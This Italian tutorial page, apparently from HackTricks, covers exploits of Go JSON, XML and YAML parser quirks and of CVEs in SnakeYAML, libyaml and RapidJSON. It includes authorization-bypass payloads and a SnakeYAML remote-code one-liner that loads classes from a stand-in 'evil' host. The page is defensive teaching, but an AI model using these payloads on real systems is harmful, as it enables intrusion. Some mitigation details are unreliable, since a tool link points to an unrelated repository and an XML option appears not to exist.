 # JSON, XML & Yaml Hacking & Problemi

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

I seguenti problemi sono stati rilevati nel Go JSON sebbene possano essere presenti anche in altri linguaggi. Questi problemi sono stati pubblicati in [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

I parser JSON, XML e YAML di Go presentano una lunga serie di incoerenze e default insicuri che possono essere abusati per **bypass authentication**, **escalate privileges**, o **exfiltrate sensitive data**.


### (Un)Marshaling Unexpected Data

Lo scopo è sfruttare structs che permettono a un attacker di leggere/scrivere campi sensibili (es., `IsAdmin`, `Password`).

- Struct di esempio:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Vulnerabilità comuni

1. **Tag mancante** (nessun tag = il campo viene ancora analizzato per impostazione predefinita):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Uso scorretto di `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Modalità corretta per impedire che un campo venga (un)marshaled:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Differenze dei parser

L'obiettivo è il bypass dell'autorizzazione sfruttando come parser differenti interpretano in modo diverso lo stesso payload, come in:
- CVE-2017-12635: Apache CouchDB bypass tramite chiavi duplicate
- 2022: Zoom 0-click RCE a causa di incoerenze del parser XML
- GitLab 2025 SAML bypass a causa di peculiarità dell'XML


**1. Campi duplicati:**
Il `encoding/json` di Go prende l'**ultimo** campo.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Altri parser (ad esempio Java’s Jackson) possono prendere il **primo**.

**2. Insensibilità alle maiuscole/minuscole:**
Go non fa distinzione tra maiuscole e minuscole:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Anche i trucchi Unicode funzionano:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-service mismatch:**
Immagina:
- Proxy scritto in Go
- AuthZ service scritto in Python

Attacker invia:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python vede `UserAction`, lo permette
- Go vede `AdminAction`, lo esegue


### Confusione di formati dati (Polyglots)

L'obiettivo è sfruttare sistemi che mescolano formati (JSON/XML/YAML) o che falliscono in modalità 'fail open' su errori del parser, come:
- **CVE-2020-16250**: HashiCorp Vault ha analizzato JSON con un parser XML dopo che STS ha restituito JSON invece di XML.

L'attaccante controlla:
- L'header `Accept: application/json`
- Controllo parziale del corpo JSON

Il parser XML di Go l'ha **comunque** analizzato e si è fidato dell'identità iniettata.

- Payload costruito:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Risultato:
- **Go JSON** parser: `Action_2` (senza distinzione tra maiuscole e minuscole + l'ultimo prevale)
- **YAML** parser: `Action_1` (sensibile a maiuscole/minuscole)
- **XML** parser: analizza `"Action_3"` all'interno della stringa

---

## Vulnerabilità notevoli dei parser (2023-2025)

> Le seguenti issue sfruttabili pubblicamente mostrano che il parsing insicuro è un problema multilingue — non solo un problema di Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Colpisce: `org.yaml:snakeyaml` < **2.0** (usato da Spring-Boot, Jenkins, etc.).
* Causa principale: `new Constructor()` deserializza **classi Java arbitrarie**, consentendo gadget chains che culminano in remote-code execution.
* One-liner PoC (aprirà la calcolatrice sull'host vulnerabile):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Correzione / Mitigazione:
1. **Aggiornare a ≥2.0** (usa `SafeLoader` di default).
2. Nelle versioni più vecchie, usare esplicitamente `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Interessa: `libyaml` ≤0.2.5 (libreria C utilizzata da molti language bindings).
* Problema: chiamare `yaml_event_delete()` due volte causa un double-free che gli attackers possono trasformare in DoS o, in alcuni scenari, in heap exploitation.
* Stato: Upstream ha respinto come “API misuse”, ma le distribuzioni Linux hanno distribuito la versione patchata **0.2.6** che null-frees il puntatore per difesa.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Interessa: Tencent **RapidJSON** prima del commit `8269bc2` (<1.1.0-patch-22).
* Bug: in `GenericReader::ParseNumber()` operazioni aritmetiche non controllate permettono agli attackers di craftare letterali numerici enormi che vanno in wrap-around e corrompono la heap — consentendo infine privilege-escalation quando il grafo di oggetti risultante viene usato per decisioni di autorizzazione.

---

### 🔐 Mitigazioni (Aggiornate)

| Rischio                             | Correzione / Raccomandazione                             |
|-------------------------------------|------------------------------------------------------------|
| Campi sconosciuti (JSON)            | `decoder.DisallowUnknownFields()`                          |
| Campi duplicati (JSON)              | ❌ Nessuna correzione nella stdlib — convalida con [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Case-insensitive match (Go)         | ❌ Nessuna correzione — convalida struct tags + pre-canonicalizza l'input |
| Dati spazzatura XML / XXE           | Usa un parser rinforzato (`encoding/xml` + `DisallowDTD`)  |
| Chiavi YAML sconosciute             | `yaml.KnownFields(true)`                                   |
| **Deserializzazione YAML non sicura**| Usa SafeConstructor / upgrade a SnakeYAML ≥2.0             |
| libyaml ≤0.2.5 double-free          | Aggiorna a **0.2.6** o a una release distro-patchata      |
| RapidJSON <patched commit           | Compila contro l'ultima RapidJSON (≥luglio 2024)           |

## Vedi anche

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## Riferimenti

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
